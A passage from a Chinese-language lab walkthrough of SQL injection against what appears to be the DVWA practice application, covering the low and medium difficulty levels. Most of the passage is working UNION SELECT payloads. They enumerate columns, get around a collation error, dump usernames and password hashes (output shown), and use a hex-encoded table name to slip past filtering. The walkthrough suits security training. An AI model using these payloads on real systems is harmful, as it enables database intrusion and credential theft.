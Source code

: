 可得表有`guestbook` `users` 

**6.获取表中的字段名**

```
输入1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #
```

==Illegal mix of collations for operation 'UNION'==

```
输入1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_schema=database() and table_name='users' #
```

![image-20221113155210293](assets/image-20221113155210293.png)

``` user_id,first_name,last_name,user,password,avatar,last_login,failed_login,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS``` 

**7.下载数据**

```
输入1' union select group_concat(user_id,first_name,last_name,user) ,group_concat(password) COLLATE utf8_general_ci from users #
```

返回结果：

```
ID: 1' union select group_concat(user_id,first_name,last_name,user) ,group_concat(password) COLLATE utf8_general_ci from users #<br>First name: 1adminadminadmin,2GordonBrowngordonb,3HackMe1337,4PabloPicassopablo,5BobSmithsmithy<br>Surname: 5f4dcc3b5aa765d61d8327deb882cf99,e99a18c428cb38d5f260853678922e03,8d3533d75ae2c3966d7e0d4fcc69216b,0d107d09f5bbe40cade3de5c71e9e9b7,5f4dcc3b5aa765d61d8327deb882cf99
```

![image-20221113160057448](assets/image-20221113160057448.png)
#### MEDIUM

```sql
1 and 1=1
```

数字型注入

字符串users改为16进制可绕过

```sql
1 or 1=1

1 union select 1,database()#

1 union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database()#

1 union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name=0x7573657273# --0x7573657273 hex(users)

1 union select group_concat(user_id,first_name,last_name,user),group_concat(password) COLLATE utf8_general_ci from users#
```